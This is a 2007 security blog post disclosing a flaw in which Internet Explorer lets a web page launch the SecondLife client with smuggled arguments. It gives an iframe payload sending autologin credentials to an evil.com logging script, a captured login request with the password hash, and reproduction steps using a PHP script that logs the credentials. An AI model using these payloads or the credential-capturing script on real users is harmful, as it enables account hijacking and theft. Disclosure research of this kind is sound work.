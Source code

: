 ```yaml
---
title: IE Pwns SecondLife
author: petko-d-petkov
date: Sun, 16 Sep 2007 10:37:53 GMT
template: post.jade
category: fucked
---
```


First of all, I must say that I am not really a **bug hunter**. I am more on the side of **tactical exploitation** - you know figuring out your way through the system even if it requires bug hunting and reverse engineering at the end. Anyway, the news is that IE (Internet Explorer) pwns [SecondLife](http://www.secondlife.com).

Before going into details why and how it happens, I would like to bring your attention on SecondLife for a moment. For those of you who don't follow developing technologies, SecondLife is a massive virtual world located on a couple of hundred workstations on-line. The cool thing about SecondLife is that you can do all kinds of things, like expressing your artistic side, communicating and of course making business. There is some money into SecondLife. Not that long time ago, there was this girl who made **$1000000** (**a million**) out of the on-line world. This means that crooks maybe after your virtual persona rather then your physical self. Therefore, security in virtual worlds may become almost as important as security in the physical world.

Now let's get back to the real issue. Attackers can steal the victim's login credentials, therefore hijacking their virtual, SecondLife persona, by simply tricking the victim into visiting a malicious Web page. Here is an example:

```html
<iframe src='secondlife://" -autologin -loginuri "http://evil.com/sl/record-login.php'></iframe>
```

Upon visiting the malicious page, the SecondLife client will launch and try to login automatically (**-autologin**) via the CGI located at _http://evil.com/sl/record-login.php_. At that moment, the following request is generated to the malicious CGI script. Yes, it is XML-RPC remote call:

```php
[HTTP_RAW_POST_DATA] => <methodCall>
    <methodName>login_to_simulator</methodName>
    <params>
        <param>
            <value>
                <struct>
                    <member>
                        <name>first</name>
                        <value>
                        <string>Elm</string>
                    </value>
                </member>
                <member>
                    <name>last</name>
                    <value>
                    <string>Blanco</string>
                </value>
            </member>
            <member>
                <name>passwd</name>
                <value>
                    <string>$1$**[MD5 Hash of the password here]**</string>
                </value>
            </member>
            <member>
                <name>start</name>
                <value>
                    <string>last</string>
                </value>
            </member>
            <member>
                <name>version</name>
                <value>
                    <string>1.18.2.0</string>
                </value>
            </member>
            <member>
                <name>channel</name>
                <value>
                    <string>Second Life Release</string>
                </value>
            </member>
            <member>
                <name>platform</name>
                <value>
                    <string>Win</string>
                </value>
            </member>
            ...
            ...
            ...
</methodCall>
```

Notice **[MD5 Hash of the password here]** place holder. This is where the user password is located. The password is MD5 hashed for security reasons. Well, this is definitely a good thing, although completely pointless since there are plenty of rainbow tables out there, which attackers can use to convert the hash back to a normal string.

> Keep in mind that most attackers don't even have to convert the hash back to a password string. Attackers can login with the hash itself by forging a request to one of the SecondLife authentication servers. The unhashed password is only needed in situations where the attacker wants to explore other on-line service the victim is currently registered with.

Unfortunately, I cannot construct on-line proof of concept, due to the fact that I need to expose this server to all sorts of attacks, but you can try to repeat my steps. Here is how you can do it:

1. **Get** Apache with PHP
2. **Put** the following script into a file called _login.php_:
```php
<?php
ob_start();
print_r($GLOBALS);
error_log(ob_get_contents(), 0);
ob_end_clean();
?>
```
3. **Tail** -f the PHP error log file. Or if you don't know what I am talking about, just skip this step.
4. **Make** a page with the following HTML body:
```html
<iframe src='secondlife://" -autologin -loginuri "http://localhost/login.php'></iframe>
```
5. **Open** the page inside Internet Explorer (both IE6 and IE7 are exploitable).
6. **After** the SecondLife client fails to login, you will get a message within your php error log, which gives you the credentials plus some other useful info about the victim.

_It is that simple. It is automatic and the user doesn't have to do anything. In other words, no user interaction is required. I would rate this issue as Medium risk although if the victim have a lot of Linden dollars ($L) then the situation becomes quite critical (from personal point of view). At the time of writing 1$ can be exchanged for 268.15$L._
